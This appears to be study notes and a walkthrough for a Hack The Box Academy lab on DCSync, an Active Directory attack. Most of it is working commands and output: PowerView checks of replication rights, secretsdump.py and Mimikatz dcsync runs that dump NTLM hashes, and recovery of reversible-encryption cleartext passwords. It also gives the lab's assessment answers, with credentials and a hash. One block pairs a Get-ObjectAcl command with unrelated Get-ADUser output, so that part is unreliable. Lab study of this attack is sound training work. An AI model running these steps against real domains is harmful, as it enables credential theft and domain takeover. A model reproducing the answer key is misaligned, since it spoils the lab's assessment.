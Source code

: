 # DCSync

## What is DCSync

DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set).

**Using Get-DomainUser to View adunn's Group Membership**

```powershell-session
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl


samaccountname     : adunn
objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                     Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                     Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
```

`objectsid : S-1-5-21-3842939050-3880317879-2865463114-1164`

**Using Get-ObjectAcl to Check adunn's Replication Rights**

```powershell-session
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-All
```

DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.

### **Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

```shell-session
secretsdump.py -outputfile dcsync_hashes -just-dc <user>:<password>@<ipaddress> 
secretsdump.py -outputfile dcsync_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

* \-just-dc-ntlm -> only give NTLM hashes from NTDS file
  * creates 3 files 1 has NTLM hash 2 has kerberos keys 3 cleartext password from NTDS for accounts set with reversible encryption.
* \-just-dc-ntlm \<USERNAME> -> NTLM hash for specific user
* \-pwd-last-set -> see when each account's password was last chaged
* \-history -> dump password history
* \-user-status -> check if user is disabled

If reversible encryption is set, the passwords are stored using RC4 encrpytion and the key used to encrypt is stored in Syskey and can be extrated by Domain Admin. secretsdump.py wil decrypt password with this option enabled while dumping the NTDS file as Domain Admin or using DCSync

**Enumerating Further using Get-ADUser**

```powershell-session
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :
```

We can see that one account, `proxyagent`, has the reversible encryption option set with PowerView as well:

**Checking for Reversible Encryption Option using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
syncron        ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

**Displaying the Decrypted Password**

```shell-session
cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

### **Performing the Attack with Mimikatz**

```powershell-session
PS C:\htb> .\mimikatz.exe

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d
```

## Assessment

**Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.**

```
PS C:\Tools\mimikatz\x64> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : PROXYAGENT
ObjectClass        : user
ObjectGUID         : c72d37d9-e9ff-4e54-9afa-77775eaaf334
SamAccountName     : proxyagent
SID                : S-1-5-21-3842939050-3880317879-2865463114-5222
Surname            :
userAccountControl : 640
UserPrincipalName  :

DistinguishedName  : CN=syncron,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled            : True
GivenName          :
Name               : syncron
ObjectClass        : user
ObjectGUID         : 36857917-0314-49a3-b09f-40415851ea6d
SamAccountName     : syncron
SID                : S-1-5-21-3842939050-3880317879-2865463114-5617
Surname            :
userAccountControl : 640
UserPrincipalName  :

```

**What is this user's cleartext password?**

ssh to linux machine to run secretsdump.py

```
secretsdump.py -just-dc INLANEFREIGHT/adunn:SyncMaster757@172.16.5.5 -outputfile inlanefreight_hashes
```

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption><p>syncron:Mycleart3xtP@ss!</p></figcaption></figure>

**Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.**

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption><p>4bb3b317845f0954200a6b0acc9b9f9a</p></figcaption></figure>











